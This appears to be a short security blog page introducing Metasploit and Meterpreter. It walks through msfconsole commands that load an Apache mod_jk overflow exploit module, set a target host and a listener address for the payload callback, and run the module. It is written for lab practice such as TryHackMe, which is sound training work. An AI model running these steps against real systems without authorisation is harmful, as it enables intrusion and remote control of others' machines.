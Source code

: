```yaml
---
title: "Metasploit"
categories: 
  - informationsecurity
tags: 
  - metasploit
  - red team
classes: 
  - wide
excerpt: ""
toc: true
date: 2022-12-13
---
```

## What is Metasploit/Meterpreter?

Metasploit is a powerful penetration testing tool for gaining initial access to systems, performing post-exploitation, and pivoting to other applications and systems. Metasploit is free, open-source software owned by the US-based cybersecurity firm Rapid7.[^1]

Meterpreter is an advanced payload that provides interactive access to a compromised system. Meterpreter supports running commands on a remote target, including uploading/downloading files and pivoting.

## Use Metasploit

```bash
# start console
msfconsole
    
# search for a model
search apache

# Load a module with the ‘use’ command
use exploit/windows/http/apache_modjk_overflow

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(exploit/windows/http/apache_modjk_overflow) > info        

# View the available options to set
msf6 exploit(exploit/windows/http/apache_modjk_overflow) > show options

# Set the target host and logging
set rhost 10.10.10.20
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

## Usefull Commands

```bash
# Inside a module
## check if target is vulnerable
check rhost=10.10.228.247 HttpClientTimeout=20

## show sessions
session

# Inside a session
## session to background
background
```

## References

[^1]: [tryhackme: Advent of Cyber Day 9]([https://tryhackme.com/room/cyberthreatintel](https://tryhackme.com/room/adventofcyber4)